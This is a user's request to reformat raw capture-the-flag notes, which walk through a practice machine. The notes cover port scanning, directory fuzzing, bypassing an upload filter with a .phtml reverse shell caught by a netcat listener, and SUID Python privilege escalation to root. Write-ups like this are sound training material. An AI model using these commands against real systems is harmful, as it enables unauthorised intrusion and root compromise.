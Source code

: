 can you write better markdown CTF room solving notes with the raw notes i have

Notes:
nmap -A 10.10.57.2 -T4

ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.57.2/FUZZ

/panel - found

php reverse shell file upload -
use burp intruder to find which type of file can be uploaded
.phtml can be uploaded

we also got /uploads dir check it if it has files that are uploaded

Bingo

nc -nvlp 4444
listen for the reverse shell

boom got the reverse shell

find the user.txt 
find / -type f -name user.txt 2> /dev/null

cat user.txt

Now to get root search for SUID permission enabled file dirs
find / -uid 0 -perm -4000 -type f 2>/dev/null

something useful - /usr/bin/python

go to gtfobins and get privilage escalation command for python
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
check - whoami > root

Bingo !!

find root.txt
find / -type f -name root.txt
cat root.txt

Boom you just solved the room